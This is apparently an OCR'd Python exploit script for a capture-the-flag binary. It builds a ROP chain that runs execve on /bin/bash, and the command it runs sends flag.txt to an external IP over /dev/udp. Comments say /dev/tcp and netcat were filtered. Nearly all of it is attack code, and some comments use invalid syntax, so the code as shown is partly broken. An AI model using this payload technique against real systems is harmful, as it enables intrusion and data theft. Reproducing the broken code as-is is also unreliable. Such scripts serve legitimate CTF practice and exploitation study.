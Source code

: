 ```bash
from struct import pack

#from solver
xor = 8084123859080867570
p1 = 6243103394520245037
p2 = 0

recvbuf = 0x7FFFF7FDE9F8
#recvbuf = 0x7ffff7ff69f8

stackadd = recvbuf + 96

cmd = "/bin/bash"

argv1 = "-c"
argv2 = "cat flag.txt > /dev/udp/164.132.103.207/53" ; /dev/tcp and netcat are filtred
argv3 = ""

stack  =  cmd  + "\x00" * (16 - len(cmd))
stack += argv1 + "\x00" * (16 - len(argv1))
stack += argv2 + "\x00" * (64 - len(argv2))
stack += argv3 + "\x00" * (16 - len(argv3))
#argv
stack+=pack("<Q", stackadd)
stack+=pack("<Q", stackadd+16)
stack+=pack("<Q", stackadd+32)
stack+=pack("<Q", stackadd+96)
stack+=pack("<Q", stackadd+112)

envp = 0
argv = stackadd+112
stackadd

ropchain=""

ropchain+=pack("<Q",0x400e3c); mov r15, rsi
ropchain+=pack("<Q",0x400e97); pop rcx; mov rax, r14; ret;
ropchain+= pack("<Q",0xFFFFFFFFFFBFEEC9) ; overflow r14 
ropchain+=pack("<Q",0x400e93) ;add r14, rcx; pop rdi; pop rcx; mov rax, r14; ret;
ropchain+=pack("<Q",0x0);
ropchain+= pack("<Q",0x0); 
ropchain+=pack("<Q",0x40011a); pop rdx; pop rsi; pop rdi; ret;
ropchain+=pack("<Q",envp)
ropchain+=pack("<Q",argv)
ropchain+=pack("<Q",stackadd)
ropchain+=pack("<Q", 0x4009b3); syscall
ropchain+=pack("<Q",0xbeef)
ropchain += stack
payload = (ropchain + "\x00" * (736 - len(ropchain)))*2
payload += pack("<Q",xor)
payload += pack("<Q",xor ^ p1)
payload += pack("<Q",xor)
payload += pack("<Q",p1)
payload += pack("<Q",p2)

print payload
```
